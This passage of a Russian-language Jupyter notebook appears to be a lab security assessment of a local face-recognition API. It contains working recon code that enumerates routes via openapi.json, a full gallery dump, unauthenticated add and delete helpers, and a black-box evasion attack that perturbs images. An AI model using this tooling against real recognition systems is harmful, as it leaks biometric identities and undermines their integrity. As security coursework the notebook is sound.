    msg = ("Не удалось обратиться к " + endpoint + ". Пробовал (с ответами сервера):\n" + "\n".join(
        f"  {r['label']}: status={r['status']} {r['err'] or ''}{_body_snip(r)}" for r in results))
    msg += ("\nПодсказки по диагнозам: 'Expected UploadFile' = серверу нужны ФАЙЛЫ multipart (не строки b64); "
            "'Field required' + loc=['body', 'имя'] = не хватает поля с этим именем.")
    msg += "\nСначала запусти ячейку 'РАЗВЕДКА API' выше - она сама найдёт адрес через /openapi.json. Или F12 -> Network -> кликни запрос -> Headers -> Request URL."
    raise RuntimeError(msg)

# --- разбор ответов ---
NAME_KEYS  = ("name", "label", "person", "identity", "best_match", "top_match", "matched", "match", "who", "result")
SCORE_KEYS_UP   = ("similarity", "score", "sim", "confidence", "cosine")   # чем больше, тем похожи
SCORE_KEYS_DOWN = ("distance", "dist", "dissimilarity")                     # чем меньше, тем похожи
SCORE_KEYS = SCORE_KEYS_UP + SCORE_KEYS_DOWN
SAME_KEYS  = ("same", "is_same", "equal", "identical", "match", "result", "is_match",
              "verdict", "are_same", "same_person", "verified", "match_found")
UNK_MARKERS = ("unknown", "не опознан", "no_match", "nomatch", "noperson")

def find_first(obj, keys, substring=False):
    if isinstance(obj, dict):
        for k, v in obj.items():
            kl = str(k).lower()
            if any(kl == t for t in keys) or (substring and any(t in kl for t in keys)):
                return v
        for v in obj.values():
            r = find_first(v, keys, substring)
            if r is not None:
                return r
    elif isinstance(obj, list):
        for it in obj:
            r = find_first(it, keys, substring)
            if r is not None:
                return r
    return None

def _find_score(j):
    # оценка похожести: точные ключи важнее подстрок; distance - инвертируем (1 - d)
    def walk(o, keys, exact):
        if isinstance(o, dict):
            for k, v in o.items():
                kl = str(k).lower()
                hit = (kl in keys) if exact else any(t in kl for t in keys)
                if hit and isinstance(v, (int, float)) and not isinstance(v, bool):
                    return float(v)
            for v in o.values():
                r = walk(v, keys, exact)
                if r is not None:
                    return r
        elif isinstance(o, list):
            for it in o:
                r = walk(it, keys, exact)
                if r is not None:
                    return r
        return None
    for keys, invert in ((SCORE_KEYS_UP, False), (SCORE_KEYS_DOWN, True)):
        v = walk(j, keys, True)
        if v is None:
            v = walk(j, keys, False)
        if v is not None:
            return (1.0 - v) if (invert and 0.0 <= v <= 1.0) else v
    return None

def parse_identify(j):
    # схема facerec-lfw (подтверждена по твоему Response):
    # {"threshold": 0.6, "faces": [{"name": .., "similarity": .., "bbox": [..],
    #                                "crop": .., "top": [{"name": .., "similarity": ..}]}]}
    # если схема не совпала - откат на эвристику
    out = {"name": None, "score": None, "recognized": False, "candidates": [],
           "threshold": None, "bbox": None}
    if not isinstance(j, dict):
        return out
    t = j.get("threshold")
    if isinstance(t, (int, float)):
        out["threshold"] = float(t)
    faces = j.get("faces")
    if isinstance(faces, list) and faces and isinstance(faces[0], dict):
        f0 = faces[0]
        nm, sim, bbox = f0.get("name"), f0.get("similarity"), f0.get("bbox")
        ok = bool(nm) and not any(m in str(nm).lower() for m in UNK_MARKERS)
        out["name"] = nm if ok else None
        out["score"] = float(sim) if isinstance(sim, (int, float)) else None
        out["recognized"] = ok
        out["bbox"] = bbox if isinstance(bbox, list) else None
        for it in (f0.get("top") or []):
            if isinstance(it, dict) and "name" in it:
                out["candidates"].append((it.get("name"), it.get("similarity")))
    else:  # эвристический откат для других эндпоинтов/версий
        name = find_first(j, NAME_KEYS, substring=True)
        if isinstance(name, str) and any(m in name.lower() for m in UNK_MARKERS):
            name = None
        out["name"], out["recognized"] = name, name is not None
        out["score"] = _find_score(j)
        out["candidates"] = parse_candidates(j)
    return out

def parse_compare(j):
    same = find_first(j, SAME_KEYS, substring=True)
    is_same = None
    if isinstance(same, bool):
        is_same = same
    elif isinstance(same, str):
        low = same.strip().lower()
        if low in ("false", "no", "0", "нет", "none", "null", ""):
            is_same = False
        else:
            is_same = True
    score = _find_score(j)
    if is_same is None and score is not None:
        is_same = score >= CONFIG["THRESHOLD"]
    return {"same": is_same, "score": score}

def parse_candidates(j):
    # собирает все пары (имя, оценка) из ответа - пригодится для списка кандидатов
    out = []
    def walk(o):
        if isinstance(o, dict):
            nm = sc = None
            for k, v in o.items():
                kl = str(k).lower()
                if kl in NAME_KEYS and isinstance(v, str):
                    nm = v
                if kl in SCORE_KEYS and isinstance(v, (int, float)) and not isinstance(v, bool):
                    sc = float(v)
            if nm is not None:
                out.append((nm, sc))
            for v in o.values():
                walk(v)
        elif isinstance(o, list):
            for it in o:
                walk(it)
    walk(j)
    return out

# --- высокоуровневые вызовы ---
def identify_image(img, note=""):
    b = img_bytes(img) if isinstance(img, Image.Image) else open(img, "rb").read()
    res = smart_post(CONFIG["EP_IDENTIFY"], [b])
    LAST_RAW["identify"] = res["json"]
    p = parse_identify(res["json"])
    p["note"] = note
    return p

CMP_EP_CANDIDATES = ("/api/compare", "/api/verify", "/api/similarity", "/api/match", "/api/compare_faces")
_SPEC_CACHE = {}   # endpoint -> схема тела POST из openapi.json (или None)

def _endpoint_spec(ep):
    # спрашиваем у сервера /openapi.json, что именно ждёт POST {ep} (кэшируется)
    if ep in _SPEC_CACHE:
        return _SPEC_CACHE[ep]
    spec = None
    try:
        r = requests.get(CONFIG["BASE_URL"].rstrip("/") + "/openapi.json", headers=_headers(), timeout=10)
        if r.status_code == 200:
            spec = r.json()
    except Exception:
        pass
    if not spec:  # запас: карта маршрутов, сохранённая ячейкой разведки
        p = EVID / "openapi_routes.json"
        if p.exists():
            try:
                spec = json.loads(p.read_text(encoding="utf-8"))
            except Exception:
                spec = None
    out = None
    if spec and ep in spec.get("paths", {}) and "post" in spec["paths"][ep]:
        schemas = spec.get("components", {}).get("schemas", {})
        content = spec["paths"][ep]["post"].get("requestBody", {}).get("content", {})
        out = {}
        for ctype, ci in content.items():
            sch = ci.get("schema", {})
            if "$ref" in sch:
                sch = schemas.get(sch["$ref"].split("/")[-1], {})
            flds = {}
            for k, v in (sch.get("properties") or {}).items():
                if "$ref" in v:
                    v = schemas.get(v["$ref"].split("/")[-1], {})
                f = {"type": v.get("type", "?"), "format": v.get("format"),
                     "required": k in (sch.get("required") or [])}
                if v.get("type") == "array":
                    it = v.get("items", {})
                    if "$ref" in it:
                        it = schemas.get(it["$ref"].split("/")[-1], {})
                    f["item_type"], f["item_format"] = it.get("type", "?"), it.get("format")
                flds[k] = f
            if flds:
                out[ctype] = flds
    _SPEC_CACHE[ep] = out
    if out:
        for ctype, flds in out.items():
            pretty = {k: (v["type"] + ("/" + v["format"] if v.get("format") else "")) for k, v in flds.items()}
            print(f"  схема POST {ep} (из openapi.json): {ctype}, поля={pretty}")
    return out

def _spec_request(ep, fields, ctype, b1, b2):
    # варианты запроса строго по схеме openapi.json.
    # ВАЖНО: openapi этого сервера описывает файловые поля как обычные строки
    # (без format: binary), а сервер на деле ждёт UploadFile - поэтому НАСТОЯЩИЕ
    # файлы пробуем ПЕРВЫМИ по именам, похожим на файловые, независимо от схемы.
    url = CONFIG["BASE_URL"].rstrip("/") + ep
    b64 = (to_b64(b1), to_b64(b2))
    out = []
    if "multipart" in ctype:
        aux = {"threshold": CONFIG["THRESHOLD"]}
        for k, v in fields.items():
            if not v.get("required") or v.get("format") == "binary" or v.get("type") == "array" or k in aux:
                continue
            aux[k] = CONFIG["THRESHOLD"] if "thresh" in k.lower() else ("photo" if v.get("type") == "string" else 0)
        names = list(fields.keys())
        file_like = [k for k in names if any(t in k.lower() for t in ("file", "image", "photo", "img", "face", "upload"))]
        bin_fields = [k for k, v in fields.items() if v.get("format") == "binary" and v.get("type") != "array"]
        arr_bins = [k for k, v in fields.items() if v.get("type") == "array" and v.get("item_format") == "binary"]
        pair = (file_like[:2] if len(file_like) >= 2 else (bin_fields[:2] if len(bin_fields) >= 2 else None))
        if pair:
            k1, k2 = pair
            def mk(k1=k1, k2=k2, aux=aux):
                return requests.post(url, files={k1: (k1 + ".jpg", b1, "image/jpeg"),
                                                 k2: (k2 + ".jpg", b2, "image/jpeg")}, data=aux, headers=_headers(), timeout=60)
            out.append((f"multipart: файлы '{k1}'+'{k2}' (UploadFile)", mk))
        for k in arr_bins:
            def mk(k=k, aux=aux):
                return requests.post(url, files=[(k, ("0.jpg", b1, "image/jpeg")), (k, ("1.jpg", b2, "image/jpeg"))],
                                     data=aux, headers=_headers(), timeout=60)
            out.append((f"multipart: 2 файла в массиве '{k}'", mk))
        used = set(pair or [])
        str_keys = [k for k, v in fields.items() if v.get("type") == "string" and v.get("format") != "binary" and k not in used]
        if len(str_keys) >= 2:
            k1, k2 = str_keys[:2]
            def mk(k1=k1, k2=k2, aux=aux):
                return requests.post(url, data={**aux, k1: b64[0], k2: b64[1]}, headers=_headers(), timeout=60)
            out.append((f"multipart: base64-строки в '{k1}'+'{k2}'", mk))
    elif ctype == "application/json":
        strs = [k for k, v in fields.items() if v.get("type") == "string"]
        arrs = [k for k, v in fields.items() if v.get("type") == "array"]
        if len(strs) >= 2:
            k1, k2 = strs[:2]
            for tag, wrap in (("b64", lambda s: s), ("dataURL", lambda s: "data:image/jpeg;base64," + s)):
                def mk(k1=k1, k2=k2, wrap=wrap):
                    return requests.post(url, json={k1: wrap(b64[0]), k2: wrap(b64[1])}, headers=_headers(), timeout=60)
                out.append((f"json: '{k1}'+'{k2}' ({tag})", mk))
        for k in arrs:
            for tag, wrap in (("b64", lambda s: s), ("dataURL", lambda s: "data:image/jpeg;base64," + s)):
                def mk(k=k, wrap=wrap):
                    return requests.post(url, json={k: [wrap(b64[0]), wrap(b64[1])]}, headers=_headers(), timeout=60)
                out.append((f"json: массив '{k}' ({tag})", mk))
    return out

def _save_cmp(ep, res, note):
    if ep != CONFIG["EP_COMPARE"]:
        print("Найден рабочий endpoint сравнения:", ep, "- сохраняю в CONFIG['EP_COMPARE'].")
        CONFIG["EP_COMPARE"] = ep
    LAST_RAW["compare"] = res["json"]
    p = parse_compare(res["json"])
    p["note"] = note
    return p

def compare_images(img1, img2, note=""):
    # сравнение двух фото: сперва сборка по схеме openapi.json, потом перебор вариантов
    # (настоящие файлы file1+file2, массив files, json-b64). Каждый промах логируется
    # СО СТАТУСОМ И КУСОЧКОМ ТЕЛА ОТВЕТА - диагноз сервера виден сразу.
    # Особый случай "лицо не найдено": формат запроса ПРАВИЛЬНЫЙ, проблема в содержимом
    # фото - падаем сразу с понятным сообщением, без перебора остальных вариантов.
    b1 = img_bytes(img1) if isinstance(img1, Image.Image) else open(img1, "rb").read()
    b2 = img_bytes(img2) if isinstance(img2, Image.Image) else open(img2, "rb").read()
    eps = [CONFIG["EP_COMPARE"]] + [e for e in CMP_EP_CANDIDATES if e != CONFIG["EP_COMPARE"]]
    errors = []
    for ep in eps:
        spec = _endpoint_spec(ep)
        if spec:
            for ctype, flds in spec.items():
                for lbl, fn in _spec_request(ep, flds, ctype, b1, b2):
                    res = _attempt(lbl, fn)
                    if res["ok"]:
                        return _save_cmp(ep, res, note)
                    if _face_nf(res):
                        raise RuntimeError(
                            "Сервер разобрал запрос (endpoint и поля file1/file2 правильные), "
                            "но не нашёл лицо на фото:" + _body_snip(res).strip()
                            + "\nЭто ответ про СОДЕРЖИМОЕ снимка, а не про формат запроса. "
                              "Портреты готовит prep_face в ячейке атаки 3: вырезает лицо по bbox "
                              "из ответа /api/identify целиком, с запасом.")
                    errors.append(f"  {ep} [{lbl}]: status={res['status']} {res['err'] or ''}{_body_snip(res)}")
        try:
            res = smart_post(ep, [b1, b2])
        except RuntimeError as e:
            errors.append("  " + str(e))
            continue
        return _save_cmp(ep, res, note)
    raise RuntimeError("Не удалось сравнить два фото. Ответы сервера по каждому варианту:\n"
                       + "\n".join(errors[-30:])
                       + "\n\nЧитай диагнозы в телах ответов: 'Expected UploadFile' -> серверу нужны файлы; "
                         "'Field required' + loc=['body', 'имя'] -> не хватает поля с этим именем.\n"
                         "Дополнительно см. " + CONFIG["BASE_URL"].rstrip("/") + "/docs -> compare/verify -> Schemas, "
                         "или F12 -> Network -> 'Сравнить два фото' -> кликни запрос -> Payload.\n"
                         "По выводу этой ячейки выполняется точная донастройка CONFIG под используемый сервер.")

ADD_EP_CANDIDATES = ("/api/persons", "/api/persons/add", "/api/person/add", "/api/add",
                     "/api/add_person", "/api/enroll", "/api/register", "/api/db/add")

def add_person(name, imgs):
    bs = [img_bytes(i) for i in imgs]
    eps = [CONFIG["EP_ADD"]] + [e for e in ADD_EP_CANDIDATES if e != CONFIG["EP_ADD"]]
    last_err = None
    for ep in eps:
        ep_real = re.sub(r"\{[^}]+\}", quote(name), ep) if "{" in ep else ep
        try:
            res = smart_post(ep_real, bs,
                             extra=None if "{" in ep else {CONFIG["NAME_FIELD"]: name},
                             field_candidates=(CONFIG["IMAGES_FIELD"], "photos", "files", "images"))
        except RuntimeError as e:
            last_err = e
            continue
        if ep != CONFIG["EP_ADD"]:
            print("Найден рабочий endpoint добавления:", ep, "- сохраняю в CONFIG['EP_ADD'].")
            CONFIG["EP_ADD"] = ep
        return res
    raise last_err

print("Слой API готов (v3.1: compare - файлы UploadFile + threshold; 'лицо не найдено' = отдельная понятная ошибка).")


Слой API готов (v3.1: compare - файлы UploadFile + threshold; 'лицо не найдено' = отдельная понятная ошибка).


In [ ]:
# ПРОВЕРКА СВЯЗИ: сервер жив? API отвечает? Как выглядит ответ?
try:
    r = requests.get(CONFIG["BASE_URL"], timeout=10)
    print("GET", CONFIG["BASE_URL"], "->", r.status_code)
except Exception as e:
    print("Сервер недоступен:", e)

# Перед этим: добавь СЕБЯ в базу через UI ("База лиц", 3-5 фото)
# и впиши путь к своему чёткому фото в CONFIG["TEST_PHOTO"]
p = identify_image(CONFIG["TEST_PHOTO"], note="калибровка")
print("\nРазобрано:", p)
print("\nСырой ответ (первые 1500 символов):")
print(json.dumps(LAST_RAW.get("identify"), ensure_ascii=False, indent=2)[:1500])

# Если здесь ошибка "Не удалось обратиться..." — заполни EP_* и поля по инструкции из Шага 1,
# или воспроизвести параметры запроса через Copy as cURL (DevTools) для точной настройки CONFIG.
# Если имена/оценки разобрались неверно — посмотри сырой ответ и поправь NAME_KEYS/SCORE_KEYS выше.

GET http://127.0.0.1:8000 -> 200

Разобрано: {'name': 'Брэд Питт', 'score': 0.8671, 'recognized': True, 'candidates': [('Брэд Питт', 0.8671), ('Эталоны-хорошие', 0.8643), ('Эталоны-плохие', 0.7948)], 'threshold': 0.6, 'bbox': [312, 2, 817, 615], 'note': 'калибровка'}

Сырой ответ (первые 1500 символов):
{
  "image": "


### Подготовка иллюстраций №2. Состав ответа сервера при распознавании

Сервер вместе с вердиктом возвращает вырезанное лицо (crop), координаты рамки (bbox), порог решения и список наиболее похожих профилей с оценками сходства. Такой состав ответа является утечкой информации об устройстве системы и приводится в отчёте в разделе «Разведка». Ячейка выполняется после «Проверки связи».


Ключи ответа: ['faces', 'image', 'threshold']
Ключи объекта face: ['bbox', 'crop', 'name', 'similarity', 'top']
bbox: [312, 2, 817, 615] | порог сервера: 0.6
Топ-совпадения (имена и оценки доступны любому клиенту!):
    Брэд Питт 0.8671
    Эталоны-хорошие 0.8643
    Эталоны-плохие 0.7948




Сохранено: results\evidence\leak_what_server_returns.png


In [ ]:
# КАРТИНКИ ДЛЯ ОТЧЁТА 2: утечка — что возвращает /api/identify
j = LAST_RAW.get("identify")
if not j:
    print("Сначала запусти ячейку «Проверка связи».")
else:
    faces = j.get("faces") if isinstance(j, dict) else None
    f0 = (faces[0] if faces else {}) or {}
    print("Ключи ответа:", sorted(j.keys()))
    print("Ключи объекта face:", sorted(f0.keys()))
    print("bbox:", f0.get("bbox"), "| порог сервера:", j.get("threshold"))
    print("Топ-совпадения (имена и оценки доступны любому клиенту!):")
    for t in (f0.get("top") or [])[:3]:
        print("   ", t.get("name"), t.get("similarity"))

    def _decode(v):
        if isinstance(v, str) and v.startswith("data:image"):
            v = v.split(",", 1)[-1]
        return Image.open(io.BytesIO(base64.b64decode(v)))

    imgs, titles = [], []
    for key, ttl in (("image", "фото, как оно пришло"), ("crop", "crop лица — вернул сервер")):
        v = f0.get(key) if key in f0 else j.get(key)
        if isinstance(v, str) and len(v) > 100:
            try:
                imgs.append(_decode(v)); titles.append(ttl)
            except Exception as e:
                print(f"  поле {key}: не декодировалось ({str(e)[:50]})")
    if imgs:
        fig, axes = plt.subplots(1, len(imgs), figsize=(3.4 * len(imgs), 3.8),
                                 constrained_layout=True)
        axes = np.array(axes).reshape(-1)
        for ax, im, ttl in zip(axes, imgs, titles):
            ax.imshow(im); ax.set_title(ttl, fontsize=10); ax.axis("off")
        fig.savefig(EVID / "leak_what_server_returns.png", dpi=150)
        plt.show()
        print("Сохранено:", EVID / "leak_what_server_returns.png")
    else:
        print("Картинок в ответе нет — для отчёта достаточно скриншота сырого JSON выше.")

### Разведка API: получение схемы маршрутов с сервера

Система построена на FastAPI (uvicorn); по умолчанию FastAPI публикует машиночитаемую схему маршрутов `/openapi.json` и интерфейс Swagger UI `/docs`. Получение полной карты API (маршруты, методы, имена полей запросов) без подбора адресов классифицируется как **information disclosure**.

Ячейка выводит перечень маршрутов, автоматически заполняет `CONFIG`, проверяет читающие GET-маршруты (возможна ли выгрузка галереи целиком — вторая утечка), а при отказе переходит к безопасным GET-запросам по типовым адресам.


In [ ]:
# РАЗВЕДКА API: спросим у сервера его схему /openapi.json
BLACKLIST = ("delete", "remove", "reset", "clear", "wipe", "purge", "drop",
             "update", "init", "shutdown", "export", "dump", "backup", "download")

def _get(path, timeout=15):
    try:
        return requests.get(CONFIG["BASE_URL"].rstrip("/") + path, headers=_headers(), timeout=timeout)
    except Exception:
        return None

def body_fields(spec, path):
    """(Content-Type, {поле: тип}) тела POST для path, с раскрытием $ref."""
    node = spec.get("paths", {}).get(path, {}).get("post", {})
    content = node.get("requestBody", {}).get("content", {})
    for ctype, ci in content.items():
        sch = ci.get("schema", {})
        if "$ref" in sch:
            sch = spec.get("components", {}).get("schemas", {}).get(sch["$ref"].split("/")[-1], {})
        props = sch.get("properties", {})
        if props:
            out = {}
            for k, v in props.items():
                if "$ref" in v:
                    v = spec.get("components", {}).get("schemas", {}).get(v["$ref"].split("/")[-1], {})
                t = v.get("type", "?")
                if v.get("format"):
                    t = t + "(" + v["format"] + ")"
                if str(t).startswith("array"):
                    it = v.get("items", {})
                    if "$ref" in it:
                        it = spec.get("components", {}).get("schemas", {}).get(it["$ref"].split("/")[-1], {})
                    it_t = str(it.get("type", "?"))
                    if it.get("format"):
                        it_t = it_t + "(" + it["format"] + ")"
                    t = "array<" + it_t + ">"
                out[k] = t
            return ctype, out
    return None, {}

spec = None
r = _get("/openapi.json")
if r is not None and r.status_code == 200:
    try:
        spec = r.json()
    except Exception:
        spec = None

if spec and spec.get("paths"):
    print("=== Сервер сам выдал карту маршрутов (openapi.json) ===")
    for p, info in spec["paths"].items():
        ms = ",".join(m.upper() for m in info if m in ("get", "post", "put", "delete", "patch"))
        print(f"  {ms:12s} {p}")
    save_evidence("openapi_routes.json", spec)
    paths = list(spec["paths"].keys())

    def guess(*keys):
        for k in keys:
            for p in paths:
                pl = p.lower()
                if k in pl and not any(b in pl for b in BLACKLIST):
                    return p
        return None

    add_p = guess("add", "enroll", "register", "person", "people")
    cmp_p = guess("compare", "verify", "similar", "match")
    id_p = guess("identify", "recognize")

    print("\nРоли по названиям путей:")
    for role, p in (("добавление", add_p), ("сравнение", cmp_p), ("опознавание", id_p)):
        print(" ", role, "->", p)

    if add_p:
        ct, fl = body_fields(spec, add_p)
        print(f"\nPOST {add_p} ждёт: Content-Type={ct}, поля={fl}")
        if "{" in add_p:
            print("  В пути есть {параметр} - имя, видимо, подставляется в URL; add_person умеет такое.")
        CONFIG["EP_ADD"] = add_p
        for f, t in fl.items():
            if str(t).startswith("string") and "(binary)" not in str(t) and any(k in f.lower() for k in ("name", "person", "label", "title")):
                CONFIG["NAME_FIELD"] = f
                break
        for f, t in fl.items():
            if "array" in str(t) or "(binary)" in str(t) or any(k in f.lower() for k in ("photo", "image", "file", "img")):
                CONFIG["IMAGES_FIELD"] = f
                break
    if cmp_p:
        CONFIG["EP_COMPARE"] = cmp_p
    if id_p:
        CONFIG["EP_IDENTIFY"] = id_p

    print("\nПроверка читающих GET-маршрутов (не отдают ли базу целиком?):")
    for p in paths:
        pl = p.lower()
        if "get" in spec["paths"][p] and not any(b in pl for b in BLACKLIST):
            rr = _get(p)
            st = rr.status_code if rr is not None else "?"
            if st == 200:
                snip = rr.text[:150].replace("\n", " ")
                print(f"  GET {p} -> 200 | {snip}...")
            else:
                print(f"  GET {p} -> {st}")

    print("\nCONFIG обновлён:")
    for k in ("EP_IDENTIFY", "EP_COMPARE", "EP_ADD", "NAME_FIELD", "IMAGES_FIELD"):
        print(f"  {k} = {CONFIG[k]}")
    print("\nТеперь перезапусти ячейку АТАКИ 2a; тестовые записи потом удали через UI.")
else:
    print("openapi.json недоступен - план Б: безопасные GET-пробы популярных адресов.")
    print("(404 = пути нет; 405 = путь ЕСТЬ, ждёт другой метод; 200 = путь есть)")
    print("Санити-чек: /api/identify должен показать 'ЕСТЬ' - он точно существует.")
    CANDS = ["/api/persons", "/api/persons/add", "/api/person/add", "/api/add",
             "/api/add_person", "/api/add-face", "/api/enroll", "/api/register",
             "/api/db/add", "/api/compare", "/api/verify", "/api/identify"]
    for c in CANDS:
        rr = _get(c)
        st = rr.status_code if rr is not None else None
        mark = {404: "нет", 405: "ЕСТЬ (скорее всего POST)", 200: "ЕСТЬ"}.get(st, str(st))
        print(f"  GET {c:20s} -> {mark}")
    print("\nВарианты дальше:")
    print("  1) открой в браузере", CONFIG["BASE_URL"].rstrip("/") + "/docs", "- Swagger UI со всеми маршрутами;")
    print("  2) F12 -> Network -> нажми 'Добавить в базу' в UI -> кликни новый запрос -> Headers -> Request URL;")
    print("  3) впиши адрес в CONFIG['EP_ADD'] и запусти атаку 2a.")

# ── Инструменты, добытые разведкой: add_person v2 + атаки на целостность ──
ADD_EP_CANDIDATES = ("/api/people", "/api/persons", "/api/persons/add", "/api/add", "/api/enroll", "/api/register")

def add_person(name, imgs):
    """v2: по схеме POST /api/people {name, files} пробует формы со строками b64/dataURL,
    бинарные файлы и JSON; адрес — CONFIG['EP_ADD'] + популярные варианты."""
    bs = [img_bytes(i) for i in imgs]
    b64s = [to_b64(b) for b in bs]
    urls = ["data:image/jpeg;base64," + s for s in b64s]
    nf, ifld = CONFIG["NAME_FIELD"], CONFIG["IMAGES_FIELD"]
    eps = [CONFIG["EP_ADD"]] + [e for e in ADD_EP_CANDIDATES if e != CONFIG["EP_ADD"]]
    for ep in eps:
        base = CONFIG["BASE_URL"].rstrip("/") + ep
        tries = [
            ("форма: files=[b64]", lambda base=base: requests.post(base, data=[(nf, name)] + [(ifld, v) for v in b64s], headers=_headers(), timeout=60)),
            ("форма: files=[dataURL]", lambda base=base: requests.post(base, data=[(nf, name)] + [(ifld, v) for v in urls], headers=_headers(), timeout=60)),
            ("файлы: files=[бинарные]", lambda base=base: requests.post(base, files=[(ifld, (f"p{i}.jpg", b, "image/jpeg")) for i, b in enumerate(bs)], data={nf: name}, headers=_headers(), timeout=60)),
            ("json: files=[b64]", lambda base=base: requests.post(base, json={nf: name, ifld: b64s}, headers=_headers(), timeout=60)),
        ]
        for lbl, fn in tries:
            try:
                r = fn()
            except requests.RequestException as e:
                print(f"  [{ep}] {lbl}: сеть, {str(e)[:60]}")
                continue
            ok = False
            try:
                j = r.json(); ok = (r.status_code == 200)
            except Exception:
                j = r.text[:200]
            print(f"  [{ep}] {lbl}: status={r.status_code}")
            if ok:
                print("  УДАЧНО:", ep, "|", lbl)
                if ep != CONFIG["EP_ADD"]:
                    CONFIG["EP_ADD"] = ep
                return {"json": j}
    raise RuntimeError("add_person: ни один адрес/формат не подошёл — требуется донастройка CONFIG (см. вывод выше).")

def dump_people():
    """Полный дамп состава базы через GET /api/people — иллюстрация утечки."""
    r = _get(CONFIG["EP_ADD"])
    j = r.json() if r is not None and r.status_code == 200 else {}
    ppl = j.get("people", []) if isinstance(j, dict) else j
    save_evidence("people_dump.json", j)
    print(f"В базе {len(ppl)} человек; полный список: results/evidence/people_dump.json")
    return ppl

def probe_settings():
    """Что можно менять через POST /api/settings? Смотрим схему из улики разведки."""
    p = EVID / "openapi_routes.json"
    if not p.exists():
        print("Сначала запусти разведку (openapi_routes.json не найден).")
        return
    sp = json.loads(p.read_text(encoding="utf-8"))
    node = sp.get("paths", {}).get("/api/settings", {})
    print("Методы /api/settings:", list(node.keys()))
    ct, fl = body_fields(sp, "/api/settings")
    print("Content-Type:", ct, "| поля:", fl)

def del_person(name):
    """DELETE /api/people/{name} без авторизации — атака на целостность/доступность."""
    r = requests.delete(CONFIG["BASE_URL"].rstrip("/") + CONFIG["EP_ADD"] + "/" + quote(name),
                        headers=_headers(), timeout=30)
    print(f"DELETE {name} -> {r.status_code} {r.text[:120]}")
    return r.status_code

print("Разведка завершена. Доступны: add_person v2 (форма b64/dataURL/файлы/JSON), dump_people(), probe_settings(), del_person().")

=== Сервер сам выдал карту маршрутов (openapi.json) ===
  GET          /api/status
  POST         /api/identify
  POST         /api/verify
  GET,POST     /api/people
  DELETE       /api/people/{name}
  POST         /api/settings
Материал сохранён: results\evidence\openapi_routes.json

Роли по названиям путей:
  добавление -> /api/people
  сравнение -> /api/verify
  опознавание -> /api/identify

POST /api/people ждёт: Content-Type=multipart/form-data, поля={'name': 'string', 'files': 'array<string>'}

Проверка читающих GET-маршрутов (не отдают ли базу целиком?):
  GET /api/status -> 200 | {"pack":"buffalo_sc","people":5754,"threshold":0.6,"verification_threshold":0.3,"token_required":false}...
  GET /api/people -> 200 | {"people":[{"name":"Aaron_Eckhart","photos":1},{"name":"Aaron_Guiel","photos":1},{"name":"Aaron_Patterson","photos":1},{"name":"Aaron_Peirsol","photos...

CONFIG обновлён:
  EP_IDENTIFY = /api/identify
  EP_COMPARE = /api/verify
  EP_ADD = /api/people
  NAME_FIELD = name

## Атака 1. Обход распознавания (evasion, чёрный ящик)

FGSM, PGD

 Идея атаки — малозаметное искажение изображения, приводящее к ошибке распознавания. Прямой доступ к градиентам отсутствует (взаимодействие через HTTP), поэтому оптимизация ведётся по оракулу оценок: система возвращает значение similarity (score-based black-box).

- **1a. Слепые искажения** — шум, размытие, сжатие JPEG, изменение яркости и контраста, окклюзия, поворот различной силы; измеряется сила искажения, при которой система перестаёт опознавать человека из галереи.
- **1b. Итеративный подбор (аналог PGD)** — пошаговое добавление шума с сохранением только тех шагов, которые снижают similarity.

Метрика успеха — **ASR** (attack success rate, lab5): доля искажений, после которых опознание исчезло. Согласованность результатов white-box PGD (lab5) и score-based аналога методологически подтверждает наличие уязвимости.


In [ ]:
# Генератор искажений и сетка силы
def perturb(img, kind, param):
    img = img.convert("RGB")
    if kind == "noise":
        a = np.asarray(img, dtype=np.float32) + np.random.default_rng(0).normal(0, param, (img.height, img.width, 3))
        return Image.fromarray(np.clip(a, 0, 255).astype("uint8"))
    if kind == "blur":
        return img.filter(ImageFilter.GaussianBlur(param))
    if kind == "jpeg":
        return Image.open(io.BytesIO(img_bytes(img, quality=int(param)))).convert("RGB")
    if kind == "brightness":
        return ImageEnhance.Brightness(img).enhance(param)
    if kind == "contrast":
        return ImageEnhance.Contrast(img).enhance(param)
    if kind == "occlusion":  # чёрная шторка на центр лица
        d = ImageDraw.Draw(img)
        w, h = img.size
        d.rectangle([w * 0.30, h * 0.30, w * 0.70, h * 0.70], fill=(0, 0, 0))
        return img
    if kind == "rotate":
        return img.rotate(param, expand=True, fillcolor=(0, 0, 0))
    raise ValueError(kind)

GRID = {
    "noise": [3, 8, 15, 25, 40],
    "blur": [1, 2, 4, 6, 10],
    "jpeg": [50, 30, 15, 8, 3],
    "brightness": [0.4, 0.6, 0.8, 1.3, 1.7],
    "contrast": [0.5, 0.7, 1.4, 2.0],
    "occlusion": ["центр"],
    "rotate": [10, 25, 45],
}
print("Готово: perturb() и GRID")

Готово: perturb() и GRID


noise            3: score=0.8636  распознан=True  имя=Брэд Питт
noise            8: score=0.8567  распознан=True  имя=Брэд Питт
noise           15: score=0.8549  распознан=True  имя=Брэд Питт
noise           25: score=0.8103  распознан=True  имя=Эталоны-хорошие
noise           40: score=0.7536  распознан=True  имя=Эталоны-хорошие
blur             1: score=0.8676  распознан=True  имя=Брэд Питт
blur             2: score=0.8681  распознан=True  имя=Брэд Питт
blur             4: score=0.8618  распознан=True  имя=Брэд Питт
blur             6: score=0.8542  распознан=True  имя=Брэд Питт
blur            10: score=0.8302  распознан=True  имя=Эталоны-плохие
jpeg            50: score=0.8623  распознан=True  имя=Брэд Питт
jpeg            30: score=0.8621  распознан=True  имя=Брэд Питт
jpeg            15: score=0.8679  распознан=True  имя=Брэд Питт
jpeg             8: score=0.8363  распознан=True  имя=Эталоны-хорошие
jpeg             3: score=0.7024  распознан=True  имя=Эталоны-хорошие
brightness 

